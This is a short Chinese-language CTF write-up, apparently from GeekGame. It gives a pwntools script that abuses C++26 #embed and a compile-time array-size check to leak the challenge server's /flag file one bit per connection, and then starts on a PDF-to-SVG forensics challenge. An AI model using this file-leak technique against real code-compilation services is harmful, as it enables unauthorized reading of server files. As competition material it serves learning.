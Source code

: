 C++26最引人注目的特性非反射莫属了。可是显然没法通过元编程读取外部文件。

阅读[C++26特性列表](https://en.wikipedia.org/wiki/C%2B%2B26#Features)，立即就能确定本题需要`#embed`。汇编语言八百年前就有的incbin指令，C++直到2026年版终于有了标准解决方案。解决方案是，将二进制数据以CSV格式读入……

用编译结果二分，每次连接确定flag中的一个二进制位。

```py
from pwn import *

s = ''
for i in range(114):
	c = 0
	for b in range(7):
		r = remote('prob07.geekgame.pku.edu.cn', 10007)
		r.recvuntil(b'token: ')
		r.sendline(b'GgT-■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■')
		r.recvuntil(b':)\n\n')
		r.send(f'''constexpr int i[] = {{
		#embed "/flag"
		}};
		constexpr int s = -!(i[{i}] & {1<<b});
		int a[s];
		int main(){{}}
		END
		'''.encode())
		bit = '✅' in r.recv().decode()
		c |= bit << b
		print('收到位：', i, b, bit)
		sleep(10)
	s += chr(c)
	print('字符串：', i, s)
```



## 开源论文太少了！

众所周知，PDF是屎，所以第一步，把PDF转成SVG。

```sh
# MuPDF的Mu是Mujica的Mu
mutool draw -Ko paper.svg misc-paper.pdf
```

选项`-K`跳过PDF中的文本，这样可以连带跳过字体嵌入，大幅减小产生的SVG大小，避免渲染卡顿。

### \\ref\{fig:flag-1}

用审查元素找到折线图，把路径抄出来。

![](pdf1.webp)

